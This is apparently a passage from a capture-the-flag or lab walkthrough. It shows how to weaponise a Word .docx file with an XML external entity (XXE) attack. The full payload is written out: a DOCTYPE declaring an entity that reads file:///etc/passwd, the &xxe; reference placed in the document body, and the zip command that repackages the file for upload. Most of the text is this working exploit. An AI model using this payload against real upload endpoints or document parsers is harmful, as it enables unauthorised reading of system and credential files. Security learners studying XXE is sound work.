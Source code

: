 ```
<w:document xmlns:o="urn:schemas-microsoft-com:office:office" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships" xmlns:v="urn:schemas-microsoft-com:vml" xmlns:w="http://schemas.openxmlformats.org/wordprocessingml/2006/main" xmlns:w10="urn:schemas-microsoft-com:office:word" xmlns:wp="http://schemas.openxmlformats.org/drawingml/2006/wordprocessingDrawing" xmlns:wps="http://schemas.microsoft.com/office/word/2010/wordprocessingShape" xmlns:wpg="http://schemas.microsoft.com/office/word/2010/wordprocessingGroup" xmlns:mc="http://schemas.openxmlformats.org/markup-compatibility/2006" xmlns:wp14="http://schemas.microsoft.com/office/word/2010/wordprocessingDrawing" xmlns:w14="http://schemas.microsoft.com/office/word/2010/wordml" mc:Ignorable="w14 wp14"><w:body><w:p><w:pPr><w:pStyle w:val="Normal"/><w:bidi w:val="0"/><w:jc w:val="left"/><w:rPr></w:rPr></w:pPr><w:r><w:rPr></w:rPr><w:t>demo</w:t></w:r></w:p><w:sectPr><w:type w:val="nextPage"/><w:pgSz w:w="12240" w:h="15840"/><w:pgMar w:left="1134" w:right="1134" w:header="0" w:top="1134" w:footer="0" w:bottom="1134" w:gutter="0"/><w:pgNumType w:fmt="decimal"/><w:formProt w:val="false"/><w:textDirection w:val="lrTb"/></w:sectPr></w:body></w:document>
```

Edit the file and add below XML Entity at start of the second line.

`<!DOCTYPE xxe [<!ENTITY xxe SYSTEM '`[`file:///etc/passwd`](file:///etc/passwd)`'>]>`

Then find the text which you have typed in the body of word file and remove it then replace with the following `&xxe;`d After uploading the document and it calls our external entity and we can able to read the 'passwd' file.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xxe [<!ENTITY xxe SYSTEM 'file:///etc/passwd'>]> <w:document xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships" xmlns:wp="http://schemas.openxmlformats.org/drawingml/2006/wordprocessingDrawing" xmlns:w="http://schemas.openxmlformats.org/wordprocessingml/2006/main" xmlns:w10="urn:schemas-microsoft-com:office:word" xmlns:w14="http://schemas.microsoft.com/office/word/2010/wordml" xmlns:wps="http://schemas.microsoft.com/office/word/2010/wordprocessingShape" xmlns:wpg="http://schemas.microsoft.com/office/word/2010/wordprocessingGroup" xmlns:mc="http://schemas.openxmlformats.org/markup-compatibility/2006" xmlns:v="urn:schemas-microsoft-com:vml" xmlns:o="urn:schemas-microsoft-com:office:office" xmlns:m="http://schemas.openxmlformats.org/officeDocument/2006/math" mc:Ignorable="w14"><w:body><w:p><w:pPr><w:pStyle w:val="Body"/></w:pPr><w:r><w:rPr><w:rtl w:val="0"/></w:rPr><w:t>&xxe;</w:t></w:r></w:p><w:sectPr><w:headerReference w:type="default" r:id="rId4"/><w:footerReference w:type="default" r:id="rId5"/><w:pgSz w:w="12240" w:h="15840" w:orient="portrait"/><w:pgMar w:top="1440" w:right="1440" w:bottom="1440" w:left="1440" w:header="720" w:footer="864"/><w:bidi w:val="0"/></w:sectPr></w:body></w:document>
```

Once you edit and add the entity, now we need to zip it again.

```
⛩\> zip resume.docx word/document.xml
updating: word/document.xml
        zip warning: Local Entry CRC does not match CD: word/document.xml
 (deflated 60%)
```

Ignore the warning. Proceed to upload this docx file.

# Initial Access

![Screen Shot 2021-09-20 at 03.57.46.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/6B011803-9577-49D8-B1B2-1490E80F5BE1/A38E2D1C-F4ED-4936-B7ED-FDDE1AEA3BC8_2/Screen%20Shot%202021-09-20%20at%2003.57.46.png)
